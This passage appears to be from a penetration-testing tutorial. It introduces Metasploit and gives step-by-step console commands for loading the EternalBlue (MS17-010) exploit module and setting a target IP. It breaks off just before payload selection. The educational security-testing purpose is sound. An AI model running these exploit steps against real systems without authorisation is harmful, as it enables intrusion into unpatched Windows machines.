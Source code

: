 Metasploit is a powerful framework for penetration testing and security research. It automates many aspects of exploitation, from scanning for vulnerabilities to gaining access to a system.

Metasploit consists of:

- **Exploits** – Code designed to take advantage of specific vulnerabilities.
- **Payloads** – Malicious code that runs on a target system after a successful exploit.
- **Auxiliary Modules** – Tools for scanning, fingerprinting, and reconnaissance.

Let’s say an ethical hacker wants to test whether a machine is vulnerable to EternalBlue (MS17-010), a well-known Windows exploit.

### Step 1: Open Metasploit

First, launch the Metasploit Framework by running:

```sh
msfconsole
```

![Metasploit Console](https://cdn-images-1.medium.com/max/1600/1*bJfYlcEtG8MCG5WCVfNPmQ.png)

### Step 2: Search for the EternalBlue Exploit

To find available exploits, we can search within Metasploit:

```sh
search eternalblue
```

This returns a list of available modules related to EternalBlue.

![Eternal blue search - Metasploit](https://cdn.hashnode.com/res/hashnode/image/upload/v1743732083488/f5fb1d50-516f-4a2a-913c-1fe74d9e249c.png)

The main exploit module is:

```plaintext
exploit/windows/smb/ms17_010_eternalblue
```

### Step 3: Select and Use the Exploit

Now, they load the module:

```sh
use exploit/windows/smb/ms17_010_eternalblue
```

### Step 4: Set the Target IP Address

The hacker sets the target machine’s IP address:

```sh
set RHOSTS 192.168.1.10
```

### Step 5: Choose a Payload
